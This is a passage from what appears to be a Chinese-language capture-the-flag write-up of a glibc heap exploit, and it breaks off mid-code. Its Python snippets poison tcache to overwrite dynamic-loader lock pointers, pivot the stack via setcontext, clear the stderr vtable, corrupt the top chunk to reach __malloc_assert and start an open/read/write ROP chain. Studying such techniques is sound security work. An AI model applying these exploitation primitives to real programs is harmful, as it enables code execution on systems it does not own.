    ```py
   # 第一次写入
   add(p64(0) + p64(dl_rtld_lock_recursive_addr))     #10 申请到包含tcache_perthread_struct的chunk
   add(p64(gadget))   #11 往dl_rtld_lock_recursive_addr中填入gadget
   print(hex(dl_rtld_lock_recursive_addr))
   ```

   ![image-20240909113302161](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409091133682.png)

   修改后：

   ![image-20240909113333256](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409091133364.png)

4. 第二次写入，往dl_load_lock_addr中写入要 rdx 和setcontext。完成rdi到rdx的转移：

   ```python
   # 第二次写入 完成 rdi --> rdx 转换 和 setcontext的栈迁移
   free(10)
   debug()
   add(p64(0) + p64(dl_load_lock_addr))     #12 申请到包含tcache_perthread_struct的chunk
   
   payload = p64(0)*2 + p64(dl_load_lock_addr + 8) + p64(0)*2 + p64(setcontext_addr)
   payload = payload.ljust(0xa0+8,b"\x00")
   payload += p64(heap_addr + 0x900) + p64(ret)
   add(payload)    #13 向dl_load_lock_addr中写入一个堆地址，后续用来转换rdi --> rdx
   ```

   这里chunk10又被放入tcache中，再申请出来后就能再次控制tcahce的entry头指针了

   ![image-20240909113653088](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409091136245.png)

   dl_load_lock_addr字段的地址写入到tcache ：

   ![image-20240909113818618](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409091138085.png)

   写入的字段如下，tcache会检查堆按0x10对齐，所以要从0x10对齐的位置申请chunk：

   ![image-20240909114237723](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409091142112.png)

   ![image-20240909114255763](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409091142189.png)

5. 最后和上面一样的操作申请到IO_2_1_stderr_的vtable字段，然后取出即可将vtable清零：

   ```python
   free(10)
   add(p64(0) + p64(IO_2_1_stderr_addr + 0xd0))     #14 申请到包含tcache_perthread_struct的chunk
   p.sendlineafter(b'>','1')   # 将IO_2_1_stderr_取出，但是不计入个数 修改 IO_2_1_stderr_ 的vtable 指针 使之不能通过check检测
   ```

   ![image-20240909114519357](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409091145514.png)

6. 最后，修改top_chunk的size值，使之能触发__malloc_assert，然后往堆上写入ORW即可（在dl_load_lock_addr字段上写入地址的那个堆）:

   ```py
   # 修改top_chunk 的size
   free(10)
   top_chunk = heap_addr + 0xB10
   add(p64(0)+ p64(top_chunk))   #15
   add(p64(0) + p64(0x10)) #16 修改top_chunk的size值
   
   # ORW
   syscall = read_addr+16
   flag = heap_addr+0x9D0
   
   # open(0,flag)
   orw =p64(pop_rdi_ret)+p64(flag)
   orw+=p64(pop_rsi_ret)+p64(0)
   ```